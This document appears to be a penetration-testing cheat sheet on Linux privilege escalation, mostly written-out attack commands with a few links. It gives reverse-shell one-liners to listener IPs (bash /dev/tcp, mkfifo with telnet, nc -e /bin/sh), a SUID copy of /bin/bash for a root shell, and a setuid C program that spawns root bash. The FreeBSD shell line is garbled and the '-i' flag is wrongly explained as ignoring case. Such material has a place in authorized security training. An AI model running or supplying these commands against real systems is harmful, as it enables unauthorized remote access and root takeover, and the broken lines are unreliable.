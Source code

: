 # Linux Privilege Escalation
## Usefull links
https://gtfobins.github.io/  
https://chmod-calculator.com/  

## Cheat sheets
https://0xsp.com/offensive/offensive-cheatsheet
https://cheatography.com/blacklist/cheat-sheets/linux-windows-privilege-escalation/
https://github.com/rmusser01/Infosec_Reference/blob/master/Draft/Cheat%20sheets%20reference%20pages%20Checklists%20-/Linux/cheat%20sheet%20Basic%20Linux%20Privilege%20Escalation.txt
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

# SPAWN SHELL / Get the Foothold
https://sentrywhale.com/documentation/reverse-shell  
https://medium.com/@pentest_it/ncat-cheatsheet-ddc5f07d8533  

## Bash

	bash -i >& /dev/tcp/10.10.14.10/3333 0>&1

-i: Ignore case distinctions

## Reverse shell in FreeBSD

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2	&1|telnet 172.18.0.2 8080 	/tmp/f

## Nc.traditional

	nc.traditional -e /bin/sh '10.10.14.10' '3333'
	nc.traditional -e /bin/sh 10.10.14.10 3333

## Bin/bash copy
Create a copy of the /bin/bash executable file (I usually rename it rootbash), make sure it is owned by the root user, and has the SUID bit set.

A root shell can be spawned by simply executing the rootbash file with the -p command line option.

	cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash

	/tmp/rootbash -p

## Compile C Shell
There may be instances where some root process executes another process which you can control. In these cases, the following C code, once compiled, will spawn a Bash shell running as root:

	int main() {
	    setuid(0);
	    system("/bin/bash -p");
	}
